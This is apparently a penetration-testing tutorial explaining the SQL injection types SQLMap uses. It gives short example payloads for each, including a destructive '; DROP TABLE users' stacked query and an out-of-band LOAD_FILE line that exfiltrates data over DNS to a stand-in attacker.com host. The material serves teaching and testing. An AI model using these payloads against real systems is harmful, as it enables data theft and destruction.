 # SQL Injection

## SQLMap

SQLMap is the only penetration testing tool that can properly detect and exploit all known SQLi types. We see the types of SQL injections supported by SQLMap with the `sqlmap -hh` command:

```shell
sqlmap -hh

...SNIP...
  Techniques:
    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")
```

The technique characters `BEUSTQ` refers to the following:

- `B`: Boolean-based blind
- `E`: Error-based
- `U`: Union query-based
- `S`: Stacked queries
- `T`: Time-based blind
- `Q`: Inline queries

---

## Boolean-based blind SQL Injection

Example of `Boolean-based blind SQL Injection`:

```sql
AND 1=1
```

SQLMap exploits `Boolean-based blind SQL Injection` vulnerabilities through the differentiation of `TRUE` from `FALSE` query results, effectively retrieving 1 byte of information per request. The differentiation is based on comparing server responses to determine whether the SQL query returned `TRUE` or `FALSE`. This ranges from fuzzy comparisons of raw response content, HTTP codes, page titles, filtered text, and other factors.

- `TRUE` results are generally based on responses having none or marginal difference to the regular server response.

- `FALSE` results are based on responses having substantial differences from the regular server response.

- `Boolean-based blind SQL Injection` is considered as the most common SQLi type in web applications.

---

## Error-based SQL Injection

Example of `Error-based SQL Injection`:

```sql
AND GTID_SUBSET(@@version,0)
```

If the `database management system` (`DBMS`) errors are being returned as part of the server response for any database-related problems, then there is a probability that they can be used to carry the results for requested queries. In such cases, specialized payloads for the current DBMS are used, targeting the functions that cause known misbehaviors. SQLMap has the most comprehensive list of such related payloads and covers `Error-based SQL Injection` for the following DBMSes:

Error-based SQLi is considered as faster than all other types, except UNION query-based, because it can retrieve a limited amount (e.g., 200 bytes) of data called "chunks" through each request.

---

## UNION query-based

Example of `UNION query-based SQL Injection`:

```sql
UNION ALL SELECT 1,@@version,3
```

With the usage of `UNION`, it is generally possible to extend the original (`vulnerable`) query with the injected statements' results. This way, if the original query results are rendered as part of the response, the attacker can get additional results from the injected statements within the page response itself. This type of SQL injection is considered the fastest, as, in the ideal scenario, the attacker would be able to pull the content of the whole database table of interest with a single request.

---

## Stacked queries

Example of `Stacked Queries`:

```sql
; DROP TABLE users
```

Stacking SQL queries, also known as the "piggy-backing," is the form of injecting additional SQL statements after the vulnerable one. In case that there is a requirement for running non-query statements (e.g. `INSERT`, `UPDATE` or `DELETE`), stacking must be supported by the vulnerable platform (e.g., `Microsoft SQL Server` and `PostgreSQL` support it by default). SQLMap can use such vulnerabilities to run non-query statements executed in advanced features (e.g., execution of OS commands) and data retrieval similarly to time-based blind SQLi types.

---

## Time-based blind SQL Injection

Example of `Time-based blind SQL Injection`:

```sql
AND 1=IF(2>1,SLEEP(5),0)
```

The principle of `Time-based blind SQL Injection` is similar to the `Boolean-based blind SQL Injection`, but here the response time is used as the source for the differentiation between `TRUE` or `FALSE`.

- `TRUE` response is generally characterized by the noticeable difference in the response time compared to the regular server response

- `FALSE` response should result in a response time indistinguishable from regular response times

`Time-based blind SQL Injection` is considerably slower than the boolean-based blind SQLi, since queries resulting in `TRUE` would delay the server response. This SQLi type is used in cases where `Boolean-based blind SQL Injection` is not applicable. For example, in case the vulnerable SQL statement is a non-query (e.g. `INSERT`, `UPDATE` or `DELETE`), executed as part of the auxiliary functionality without any effect to the page rendering process, time-based SQLi is used out of the necessity, as `Boolean-based blind SQL Injection` would not really work in this case.

---

## Inline queries

Example of `Inline Queries`:

```sql
SELECT (SELECT @@version) from
```

This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.

---

## Out-of-band SQL Injection

Example of `Out-of-band SQL Injection`:

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.

By running the SQLMap on the DNS server for the domain under control (e.g. `.attacker.com`), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. `foo.attacker.com`), where `foo` would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect the `foo` part, to form the entire SQL response.
